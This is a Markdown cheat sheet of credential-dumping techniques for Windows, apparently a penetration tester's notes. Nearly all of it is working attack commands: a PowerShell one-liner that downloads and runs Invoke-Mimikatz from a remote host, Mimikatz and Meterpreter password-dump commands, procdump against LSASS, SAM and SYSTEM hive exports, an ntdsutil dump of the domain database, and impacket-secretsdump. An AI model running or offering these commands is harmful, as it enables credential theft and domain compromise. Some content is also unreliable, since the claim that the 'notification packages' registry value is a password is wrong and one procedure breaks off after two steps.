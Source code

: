 # Dumping Credentials with Mimikatz
## Usefull Information
https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-credentials-from-lsass.exe-process-memory
https://www.offensive-security.com/metasploit-unleashed/mimikatz/

## Download
```powershell
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```

## Mimkatz Commands
Checking permissions:  
privilege::debug  
Dumping passwords:  
sekurlsa::logonpasswords  
Dumping passwords cleartext:  
sekurlsa::wdigest  

With Meterpreter you can use these following commands:  
hashdump  
load mimikatz  
help mimikatz  
mimikatz_command -f version  

Other Meterpreter commands which use Mimikatz
msv  
kerberos  
mimikatz_command -f samdump::hashes  

# Dumping Credentials without Mimikatz
## Dimping Lsass without mimikatz
1. Open Task Manager
2. Rignt click on lsass.exe

## Dumping with Procdump
```powershell
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```

## Creds in Registry
```powershell
reg query HKLM /f password /t REG_SZ /s
# or
reg query HKCU /f password /t REG_SZ /s
```
Passwords can be found with this filter
```powershell
reg query "hklm\system\currentcontrolset\control\lsa" /v "notification packages"
```
value of notification packages is a password

## Dumping SAM Registry
```powershell
reg save hklm\system system
reg save hklm\sam sam
```

# Dumping a Domain Controller
## Dumping DC Passwords Locally
```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```

## Dumping DC Passwords Remotly (Password Required)
```powershell
impacket-secretsdump -just-dc-ntlm offense/administrator@10.0.0.6
```
